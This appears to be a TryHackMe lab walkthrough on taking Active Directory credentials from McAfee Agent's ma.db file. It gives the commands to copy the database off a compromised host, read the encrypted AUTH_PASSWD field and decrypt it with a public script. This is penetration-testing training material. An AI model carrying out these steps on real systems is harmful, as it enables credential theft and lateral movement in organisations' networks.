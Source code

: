 ## Configuration Files Enumeration

The last enumeration avenue we will explore in this network is configuration files. If you gain access to a host on the organisation's network, configuration files are an excellent avenue to explore for recovering Active Directory (AD) credentials. Depending on the host, various configuration files may be valuable for enumeration, such as:

- Web application config files
- Service configuration files
- Registry keys
- Centrally deployed applications

Several enumeration scripts, such as **Seatbelt**, can automate this process.

---

### Recovering Credentials from Configuration Files

In this task, we will focus on recovering credentials from a centrally deployed application. These applications often require authentication to the domain during installation and execution. An example is **McAfee Enterprise Endpoint Security**, which organisations use for endpoint detection and response.

McAfee embeds the credentials used during installation in a file called `ma.db`. With local access to the host, you can retrieve and read this database file to recover the associated AD service account. We will use SSH access on `THMJMP1` for this exercise.

#### Location of `ma.db`

```shell
cd C:\ProgramData\McAfee\Agent\DB
dir
```

Example output:

```
 Directory of C:\ProgramData\McAfee\Agent\DB      

03/05/2022  10:03 AM    <DIR>          .
03/05/2022  10:03 AM    <DIR>          ..
03/05/2022  10:03 AM           120,832 ma.db      
               1 File(s)        120,832 bytes     
               2 Dir(s)  39,426,285,568 bytes free
```

#### Copying `ma.db` to Your AttackBox

```shell
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
```

Enter the password when prompted.

#### Reading the Database File

Use `sqlitebrowser` to open the database:

```shell
sqlitebrowser ma.db
```

Select the **Browse Data** option and focus on the `AGENT_REPOSITORIES` table. Look for the `DOMAIN`, `AUTH_USER`, and `AUTH_PASSWD` fields. Note that the `AUTH_PASSWD` field is encrypted.

---

### Decrypting the Password

McAfee encrypts the password with a known key. You can use a Python script to decrypt it. The script is available as a downloadable task file or on the AttackBox at `/root/Rooms/BreachingAD/task7/`. There is also a Python 3 version available here: [mcafee-sitelist-pwd-decryption](https://github.com/funoverip/mcafee-sitelist-pwd-decryption).

Unzip the script:

```shell
unzip mcafeesitelistpwddecryption.zip
```

Run the script with your base64 encoded and encrypted password:

```shell
python2 mcafee_sitelist_pwd_decrypt.py <AUTH_PASSWD_VALUE>
```

Example output:

```
Crypted password   : <AUTH_PASSWD_VALUE>
Decrypted password : <Decrypted_Password>
```

---

You now have a set of AD credentials for further enumeration! This is just one example of recovering credentials from configuration files. Whenever you gain a foothold on a host, follow a detailed methodology to recover all loot, including credentials and other sensitive information stored in configuration files.